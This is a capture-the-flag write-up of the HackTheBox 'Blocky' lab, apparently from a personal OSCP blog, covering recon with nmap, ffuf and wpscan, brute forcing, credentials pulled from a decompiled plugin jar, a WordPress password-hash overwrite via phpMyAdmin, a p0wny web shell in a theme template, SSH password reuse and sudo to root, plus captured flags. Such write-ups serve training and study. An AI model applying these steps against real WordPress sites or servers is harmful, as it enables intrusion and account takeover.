 ```yaml
---
layout: post
title: Blocky
tags: [OSCP, Writeup, Linux, PHP, Web, Java]
description: "Blocky write-up"
---
```


![Blocky logo](/assets/imgs/blocky/blocky.png)

### This is an easy linux box

## Tools used

------

- nmap


## Reconnaissance

------

### Nmap

```
nmap -sC -sV -oA blocky 10.10.10.37 -v

PORT     STATE  SERVICE VERSION
21/tcp   open   ftp     ProFTPD 1.3.5a
22/tcp   open   ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
80/tcp   open   http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.8
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: BlockyCraft &#8211; Under Construction!
8192/tcp closed sophos
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Here’s what nmap teaches us :

- port 22 (FTP) - ProFTPD 1.3.5a
- port 22 (SSH) - OpenSSH 7.2p2
- port 80 (HTTP) - Apache 2.4.18

Let's first go to the web port :

![Blocky website](/assets/imgs/blocky/website.PNG)

It looks like a website about a minecraft server, the website is still in "construction" and are developing a wiki. Let' try to found files/directories :

```
ffuf -w /home/liodeus/directory-list-lowercase-2.3-medium.txt -u http://10.10.10.37/FUZZ -e .txt,.php -t 150         

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.1.0-git
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.37/FUZZ
 :: Wordlist         : FUZZ: /home/liodeus/directory-list-lowercase-2.3-medium.txt
 :: Extensions       : .txt .php 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 150
 :: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

index.php               [Status: 301, Size: 0, Words: 1, Lines: 1]
wiki                    [Status: 301, Size: 309, Words: 20, Lines: 10]
wp-content              [Status: 301, Size: 315, Words: 20, Lines: 10]
wp-login.php            [Status: 200, Size: 2402, Words: 147, Lines: 70]
plugins                 [Status: 301, Size: 312, Words: 20, Lines: 10]
license.txt             [Status: 200, Size: 19935, Words: 3334, Lines: 386]
wp-includes             [Status: 301, Size: 316, Words: 20, Lines: 10]
javascript              [Status: 301, Size: 315, Words: 20, Lines: 10]
wp-trackback.php        [Status: 200, Size: 135, Words: 11, Lines: 5]
wp-admin                [Status: 301, Size: 313, Words: 20, Lines: 10]
phpmyadmin              [Status: 301, Size: 315, Words: 20, Lines: 10]
wp-signup.php           [Status: 302, Size: 0, Words: 1, Lines: 1]
```

So this is a Wordpress, to found the version, I go to this url : http://10.10.10.37/wp-links-opml.php

![Wordpress version](/assets/imgs/blocky/version.PNG)

This is not the last Wordpress version, I use wpscan to get information about it :

```
wpscan --rua -e --url http://10.10.10.37/
```

The one interesting things that I get from this scan is a username :

```
[+] notch
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://10.10.10.37/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)
```

I tried to brute force it :

```
wpscan --rua --url http://10.10.10.37/ -P /home/liodeus/wordlist/rockyou.txt -U "notch"
```

But, couldn't found the password ! Let's try another path and see if I can do anything else. They were talking about a wiki, so let's see it :

![Wiki page](/assets/imgs/blocky/hint_plugins.PNG)

So they're talking about plugins and ffuf found a plugins directory :

![Plugins page](/assets/imgs/blocky/plugins.PNG)

There is two plugins, download them :

```
wget http://10.10.10.37/plugins/files/griefprevention-1.11.2-3.1.1.298.jar
wget http://10.10.10.37/plugins/files/BlockyCore.jar
```

This is two java files, looking on Google how to decompile them, I stumbble upon this website : http://www.javadecompilers.com/, that I used to decompiled both files. The interesting one was "BlockyCore.jar" :

![Java decompilers](/assets/imgs/blocky/blockycore_decompil.PNG)

And here I obtain credentials to databases !

```
this.sqlHost = "localhost";
this.sqlUser = "root";
this.sqlPass = "8YsqfCTnvxAUeduzjNSXe22";
```

## Exploit

------

From ffuf, I know that there is a phpmyadmin, so go connect to it with the credentials :

![Phpmyadmin connected](/assets/imgs/blocky/phpmyadmin_connected.PNG)

Now that I connected, I see the wordpress database and I'm interested in passwords. So I went to wordpress > wp_users > notch hashed password.

![Notch hashed password](/assets/imgs/blocky/notch_hash_password.PNG)

I tried to crack it with hashcat :

```
hashcat.exe -m 400 -a 0 hash.txt rockyou.txt
```

But no success ! So I thought, what if I just change the hashed password by mine ? I found this website who let's us generate hashed password from a string : https://ehikioya.com/wordpress-password-hash-generator/. So I hashed "Liodeus", which gives me this hash :

```
Liodeus -> $P$BRdSf.4WMEer/JWPQPIZMrtLGHkL/e0
```

Now let's modify the hashed password of notch by mine :

![Hash modified](/assets/imgs/blocky/hash_modified.PNG)

then go connect http://10.10.10.37/wp-admin/

```
notch:Liodeus
```

![Blocky logo](/assets/imgs/blocky/wordpress_loign.PNG)

Now upload a webshell, mutliple ways : https://hackingnewideas.wordpress.com/2014/01/02/how-to-upload-shell-in-wordpress-sites/
I used the first one : Appearance > Editor > 404 Template, modify with https://raw.githubusercontent.com/flozz/p0wny-shell/master/shell.php :

![Blocky logo](/assets/imgs/blocky/webshell.PNG)

go to the url : http://10.10.10.37/wp-content/themes/twentyseventeen/404.php

![Blocky logo](/assets/imgs/blocky/webshell_test.PNG)

I'm only "www-data" ! There is another method who gives you notch rights, connecting to the ssh with the same password as the one from the database (8YsqfCTnvxAUeduzjNSXe22) :

```
ssh notch@10.10.10.37              
notch@10.10.10.37's password: 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Tue Jul 25 11:14:53 2017 from 10.10.14.230
notch@Blocky:~$ whoami
notch
```



```
notch@Blocky:/home/notch$ sudo -l
[sudo] password for notch:
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
```

Notch can run any commands as root ! So let's get root !

```
notch@Blocky:~$ sudo su
root@Blocky:/home/notch# whoami
root
```



## Flags

------

### User.txt

```
root@Blocky:/home/notch# cat user.txt 
59fee0977fb60b8a0bc6e41e751f3cd5
```

### Root.txt

```
root@Blocky:/home/notch# cat /root/root.txt 
0a9694a5b4d272c694679f7860f1cd5f
```